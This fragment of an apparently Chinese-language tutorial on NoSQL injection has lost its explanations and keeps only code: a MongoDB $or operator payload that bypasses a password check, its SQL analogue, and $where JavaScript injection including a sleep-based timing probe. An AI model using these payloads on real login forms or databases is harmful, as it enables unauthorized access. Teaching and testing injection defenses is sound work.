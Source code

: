 > 



```
{'usernmae':'admin', 'password':'admin123'}

```

> 



```
username=admin', $or: [ {}, {'a': 'a&amp;password='}], $comment: '123456

```

> 



```
{'username':'admin', $or: [ {}, {'a': 'a', password:''}], $comment: '123456'}

select * from logins where username = 'admin' and (password true&lt;&gt; or ('a'='a' and password = '')))

```

### JavaScript 注入

> 



#### $where 操作符

> 



```
db.users.find({ $where: "function(){return(this.username == 'admin')}" })

{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "admin", "password" : "admin123" }

```

> 



```
db.users.find({ $where: "function(){return(this.username == $username)}" })

```

> 



```
db.users.find({ $where: "function(){return(this.username == 'd1no'; sleep(5000))}" })

```
